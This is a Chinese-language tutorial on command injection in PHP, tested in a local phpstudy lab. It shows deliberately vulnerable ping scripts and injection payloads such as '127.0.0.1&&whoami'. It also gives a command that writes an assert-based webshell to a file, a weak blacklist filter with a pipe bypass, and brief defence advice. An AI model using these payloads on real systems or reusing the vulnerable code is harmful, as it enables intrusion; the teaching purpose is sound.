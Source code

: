 ## 命令注入总结 ##
作者：九世
时间：2019/1/29

<b>漏洞产生的原因</b>
由于开发人员使用脚本语言提供的命令执行操作，过滤又不完善用户又可以只有控制输入的变量。导致了变量可控，造成命令注入。

<b>漏洞测试</b>
测试环境为：win7+php5.6,使用phpstudy搭建
存在漏洞的脚本
```
<html>
<head>
    <title>命令注入测试</title>
</head>
<body>
<p>输入IP</p>
<form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    IP:<input name="host" type="text" required><br>
    <input type="submit" value="提交">
    <p id="demo">我是结果</p>
</form>
</body>
</html>

<?php
header("Content-type: text/html;charset=utf-8");
if(isset($_GET['host'])){
    $ud=$_GET['host'];
    $zx=system("ping ".$ud);
    echo $zx;
    echo "<script>document.getElementById('demo').innerText=$zx</script>";
}
?>


```
上面这个例子可以看到无任何过滤，输入变量又可控，导致可以被用户任意执行命令
![kQ4lSP.png](https://s2.ax1x.com/2019/01/29/kQ4lSP.png)
输入：
```
127.0.0.1&&dir
```
![kQ40S0.md.png](https://s2.ax1x.com/2019/01/29/kQ40S0.md.png)
查看权限：
```
127.0.0.1&&whoami
```
![kQ4TmD.png](https://s2.ax1x.com/2019/01/29/kQ4TmD.png)

反弹shell
```
echo "<?php @assert($_GET[_]);?>" >> zz.php
```
![kQ57vV.png](https://s2.ax1x.com/2019/01/29/kQ57vV.png)

![kQ5zCR.png](https://s2.ax1x.com/2019/01/29/kQ5zCR.png)

<b>绕过过滤</b>
一些程序员为了防止这种情况的发生，进行了一定的过滤
```
<html>
<head>
    <title>命令注入测试</title>
</head>
<body>
<p>输入IP</p>
<form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    IP:<input name="host" type="text" required><br>
    <input type="submit" value="提交">
    <p id="demo">我是结果</p>
</form>
</body>
</html>

<?php
header("Content-type: text/html;charset=utf-8");
if(isset($_GET['host'])){
    $ud=$_GET['host'];
    $j=check($ud);
    echo "payload：$j";
    echo "<br>";
    $zx=system("ping ".$j);
    echo $zx;
    echo "<script>document.getElementById('demo').innerText=$zx</script>";
}
function check($v){
    $black_list=array(';'=>'','&'=>'');
    $th=str_replace(array_keys($black_list),$black_list,$v); /*读取黑名单数组里面的key，替换为黑名单里面的值也就是空*/
    return $th;
}
?>
```
&和；被过滤掉了，那么我们用|代替
```
127.0.0.1 | ipconfig
```
![kQLxcd.png](https://s2.ax1x.com/2019/01/29/kQLxcd.png)


过滤更严谨一点
```
<html>
<head>
    <title>命令注入测试</title>
</head>
<body>
<p>输入IP</p>
<form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    IP:<input name="host" type="text" required><br>
    <input type="submit" value="提交">
    <p id="demo">我是结果</p>
</form>
</body>
</html>

<?php
header("Content-type: text/html;charset=utf-8");
if(isset($_GET['host'])){
    $ud=$_GET['host'];
    $j=check($ud);
    echo "payload：$j";
    echo "<br>";
    $zx=system("ping ".$j);
    echo $zx;
    echo "<script>document.getElementById('demo').innerText=$zx</script>";
}
function check($v){
    $black_list=array(';'=>'','&'=>'','||'=>'','|'=>'',')'=>'','('=>'');
    $th=str_replace(array_keys($black_list),$black_list,$v); /*读取黑名单数组里面的key，替换为黑名单里面的值也就是空*/
    return $th;
}
?>
```
或许这样可以防御大部分攻击，但是并不能完全保证不会被FUZZ绕过，而且未来说不定也会有办法什么之类的。
防御方案有两个：
```
1.在获取用户输入后，用正则匹配出要进行命令执行的
2.加入token机制，表单限制为只能输入数字
```
